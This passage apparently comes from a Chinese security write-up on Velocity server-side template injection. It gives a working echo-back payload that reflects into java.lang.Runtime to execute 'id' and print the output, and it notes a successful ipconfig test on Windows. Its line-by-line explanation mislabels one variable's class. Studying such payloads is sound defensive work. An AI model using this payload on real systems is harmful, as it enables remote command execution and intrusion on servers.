
有回显示的payload 1 #set($x='')+#set($rt=$x.class.forName('java.lang.Runtime'))+#set($chr=$x.class.forName('java.lang.Character'))+#set($str=$x.class.forName('java.lang.String'))+#set($ex=$rt.getRuntime().exec('id'))+$ex.waitFor()+#set($out=$ex.getInputStream())+#foreach($i+in+[1..$out.available()])$str.valueOf($chr.toChars($out.read()))#end
payload解释
1 2 3 4 5 rt = java.lang.Runtime.class chr = java.lang.String ex = java.lang.Runtime.getRuntime().exec("id") ex.waitFor() // 循环读取输出
在win上测试ipconfig成功

总结
因为Spring框架版本的问题，高版本不能直接整合Velocity模板，一直报错踩坑
Velocity模板目前也逐渐被其它模板引擎替代，如：Thymeleaf
office